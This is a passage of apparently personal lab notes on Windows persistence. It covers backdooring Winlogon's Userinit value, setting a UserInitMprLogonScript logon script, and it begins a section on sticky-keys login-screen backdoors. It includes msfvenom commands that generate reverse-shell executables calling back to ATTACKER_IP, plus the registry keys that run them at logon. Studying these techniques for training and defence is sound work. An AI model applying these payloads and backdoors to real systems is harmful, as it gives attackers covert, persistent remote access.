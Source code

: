 Note:
	If we'd replace any of the executables with some reverse shell, we would break the logon sequence, which isn't desired. Interestingly, you can append commands separated by a comma, and Winlogon will process them all.

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4452 -f exe -o revshell.exe
```

```shell-session
C:\> move revshell.exe C:\Windows
```

We then alter either `shell` or `Userinit` in `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\`. In this case we will use `Userinit`, but the procedure with `shell` is the same.
		![[Pasted image 20240911025808.png]]

### Logon scripts
One of the things `userinit.exe` does while loading your user profile is to check for an environment variable called `UserInitMprLogonScript`. We can use this environment variable to assign a logon script to a user that will get run when logging into the machine. The variable isn't set by default, so we can just create it and assign any script we like.

Note:
	Notice that each user has its own environment variables; therefore, you will need to backdoor each separately.

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4453 -f exe -o revshell.exe
```

```shell-session
C:\> move revshell.exe C:\Windows
```

To create an environment variable for a user, you can go to its `HKCU\Environment` in the registry. We will use the `UserInitMprLogonScript` entry to point to our payload so it gets loaded when the users logs in:
		![[Pasted image 20240911030030.png]]

Note:
	Notice that this registry key has no equivalent in `HKLM`, making your backdoor apply to the current user only.

## **Backdooring the Login Screen / RDP**
If we have physical access to the machine (or RDP in our case), you can backdoor the login screen to access a terminal without having valid credentials for a machine.

### Sticky Keys
When pressing key combinations like `CTRL + ALT + DEL`, you can configure Windows to use sticky keys, which allows you to press the buttons of a combination sequentially instead of at the same time. In that sense, if sticky keys are active, you could press and release `CTRL`, press and release `ALT` and finally, press and release `DEL` to achieve the same effect as pressing the `CTRL + ALT + DEL` combination.
